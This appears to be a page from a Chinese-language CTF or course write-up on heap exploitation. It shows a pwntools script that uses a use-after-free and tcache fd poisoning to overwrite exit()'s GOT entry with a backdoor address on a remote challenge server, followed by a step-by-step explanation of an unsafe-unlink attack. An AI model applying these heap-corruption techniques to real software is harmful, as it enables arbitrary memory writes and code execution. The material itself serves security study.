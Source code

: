 ```python
    p.recvuntil("the ddl index")
    p.sendline(index)
    p.recvuntil("new ddl time")
    p.sendline(time)
    p.recvuntil("new ddl content")
    p.sendline(content)

local = 0
exit_got = 0x0602078
backdoor_addr = 0x400917

if local:
    p = process('./uaf', env={'LD_LIBRARY_PATH':'.'})
else:
    p = remote("47.99.80.189", 10030)
    libc = ELF('libc-2.27.so')
    p.recvuntil('ID:')
    p.sendline('3180103650')

raw_input()

# 1. malloc 3 ddls: A, B and C
add_ddl("11.11", "ddl_1")
add_ddl("22.22", "ddl_2")
add_ddl("33.33", "ddl_3")

# 2. free 2 ddls: A and B
free_ddl("1")
free_ddl("2")

# 3. pollute B's fd -> GOT of exit()
edit_ddl("2", p64(exit_got), "SSS")

# 4. malloc B -> write GOT of exit()
add_ddl("22.22", "ddl_1")
add_ddl(p64(backdoor_addr), "ddl_2")

# 5. exit() -> backdoor()
p.recvuntil("Your chocie:\n")
p.sendline("5")
p.recv()
p.interactive()
```

### 3. unsafe unlink

首先梳理一下该题的思路：

- 通过先创建3个连续的chunk（分别记作chunk1, chunk2, chunk3），其中chunk2是后续用于free的，chunk3是为了避免与free(chunk2)时直接与top chunk合并所作的保护。
- 利用程序内的edit功能，修改chunk1的内容，在chunk1内创建fake chunk并通过溢出修改chunk2的metadata段内的部分重要标志位。需要注意的是，我们将fake chunk的起始地址就设计在chunk1的user data段，这样可以直接用array这个全局变量，因为array指向的就是chunk1的user data段。
- 利用free(chunk2)，导致fake chunk的unlink，而unlink的过程中会导致array[0]中的值变为array-24
- 通过edit功能，修改chunk1，因为array[0]中的值为array-24，所以我们修改chunk1.data[3]处的内容为`&targetID`，这样就将array[0]的值改为了`&targetID`，也就是说，我们将chunk1的data段的地址改写了。而程序寻找chunk1的data段是通过array[0]获取的，后续再次调用edit功能改chunk1.data的内容，就完成了对targetID的值的修改
